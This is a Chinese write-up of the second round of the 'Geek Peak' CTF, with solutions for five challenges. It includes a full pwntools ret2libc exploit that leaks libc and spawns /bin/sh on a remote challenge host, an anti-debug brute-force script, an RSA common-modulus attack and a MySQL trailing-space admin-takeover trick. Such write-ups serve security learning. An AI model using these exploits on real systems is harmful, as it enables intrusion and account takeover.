 ### 极客巅峰赛第二场

### pwn------PlainR2B

最简单的栈溢出，其中要注意的就是strcmp对比是以\x00为标志结束的，read这么0x34个字节，0x1c+8个字节就到ret地址，详细见exp。
```
from pwn import *

context(os='linux',arch='amd64',aslr = 'False')
local = 0
#log_level='debug'
if local:
	p = process("./pwn",env={'LD_PRELOAD':'./libc-2.23.so'})
	elf = ELF("./pwn")
	libc = ELF('./libc-2.23.so')
else:
	p = remote('117.50.60.184',12345)
	#p = remote('chall.pwnable.tw',10001)
	elf = ELF("./pwn")
	libc = ELF('./libc-2.23.so')


printf_plt = 0x8048460
printf_got = 0x804A018


p.sendline("AAA")
pause()
payload = "yes"+"\x00"*(28-3) + "\x00"*4 
payload += p32(printf_plt) + p32(0x80485CB) + p32(printf_got)
payload += "\x00"* (0x34 - len(payload))
p.send(payload)

p.recvuntil("true?")
printf = u32(p.recvn(4))
print hex(printf)
libc_printf = libc.symbols['printf']
libc_base = printf - libc_printf
print hex(libc_base)

system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search('/bin/sh'))

payload = "yes"+"\x00"*(28-3) + "\x00"*4 
payload += p32(system_addr) + p32(0x80485CB) + p32(binsh_addr)
payload += "\x00"* (0x34 - len(payload))
p.sendline("aaa")
p.send(payload)

p.interactive()
```


### re------Antidbg

这题有IDA7.1的话就比较简单，可以直接F5。或者其中有一个地方把栈帧提高了0x100，IDA里面把他改成0就可以F5了。
然后还有一个坑就是，直接main里面进去的那个数组看到的是四个2，但是其实创建一个新线程的那个函数里面有一个判断会把那个数组里面的四个2变成2，3，6，7。
剩下就是直接爆破就OK了。

```
v5=[0x06, 0x0C, 0x01, 0x07, 0x0B, 0x00, 0x06, 0x02, 0x01, 0x06, 0x01, 0x07, 0x02, 0x0D, 0x05, 0x01,0x03, 0x03, 0x0D, 0x04, 0x03, 0x01, 0x00, 0x0D, 0x08, 0x08, 0x01, 0x02, 0x0D, 0x07, 0x00, 0x01,0x02,0x06,8,2,9,0,5,2,2,0xd]

b=[2,2,2,2,3,1,1,2,1,1,2,1,1,0,1,1,2,2,0,1,1,1,1,0,1,1,2,2,0,1,1,2,2,1,1,1,1,1,2,1,1,3,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]
d=[2,3,6,7,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]

res=[]
dd=[0,1,2,3,4,5,6,7,8,9,0xa,0xb,0xc,0xd,0xe,0xf]

for j in range(42):
	a=0
	for i in range(256):
		if (i >> 4) == d[b[j]] and (i & 0xF) == dd[v5[j]] :
			res.append(i)
			#print chr(i)
			# print i
			a=1
			break
	if a==0 :
		print "erro"
		break
s=''
for i in range(42):
	s=s+chr(res[i])
print s
```

### crypto----RSA

这道题是一个共模攻击，利用两个文件的n是一样的，只有e不一样，但是这两个e是互素的，就一定存在一个a，b使得乘积为1。

参考链接：https://www.jianshu.com/p/9b44512d898f

```
from libnum import *
import base64
from binascii import *
from Crypto.PublicKey import RSA
from Crypto.Util.number import *


c1 = int(hexlify(base64.b64decode(open("flag1.enc").read())),16)
c2 = int(hexlify(base64.b64decode(open("flag2.enc").read())),16)
key1 = RSA.importKey(open("pubkey1.pem").read())
key2 = RSA.importKey(open("pubkey2.pem").read())

e1 = key1.e
e2 = key2.e

n = key1.n
c1_invert = (xgcd(c1, n)[0]+n)%n
f = (pow(c1_invert , -xgcd(e1,e2)[0], n)*pow(c2, xgcd(e1,e2)[1],n))%n
print unhexlify(hex(f)[2:].strip("L"))

```
### WEB-----simple  sqli

这题目也算是够坑的了，说是sqli其实就没有sql注入，其实就是一个简单的mysql特性的问题。先创建一个admin用户，名字只要用`admin    	`(后面加几个空格)，就可以把admin这个用户覆盖掉，然后登陆就可以拿到flag

### misc ---- word

最简单的misc隐写题目，又是一波关注公众号，然后word文档里面的字体名字就是后面的flag。